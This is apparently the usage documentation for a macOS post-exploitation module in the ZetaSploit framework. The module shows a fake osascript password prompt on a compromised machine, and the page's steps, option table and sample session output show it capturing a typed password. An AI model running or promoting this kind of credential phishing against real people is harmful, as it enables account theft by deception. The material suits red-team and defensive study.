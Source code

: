 # `post/macos/membrane/gather/prompt`

## Description

This module uses system `osascript` to prompt user to type password.

## Verification Steps

1. Start ZetaSploit
2. Run `exploit/macos/stager/membrane_reverse_tcp` on target
3. Do: `use post/macos/membrane/gather/prompt`
4. Do: `set SESSION` to your target session
5. Do: `run`

## Options

| Option    | Default Value | Required | Description        |
|-----------|---------------|----------|--------------------|
| `SESSION` | 0             | yes      | Session to run on. |

**SESSION**

Variable that contains session id to run post module on it.

## Scenarios

```
(zsf: post: macos/membrane/gather/prompt)> run
[*] Waiting for prompt window to appear...
[*] Waiting for user to type password...
[i] User entered: mysuperstrongpassword1234
(zsf: post: macos/membrane/gather/prompt)>
```
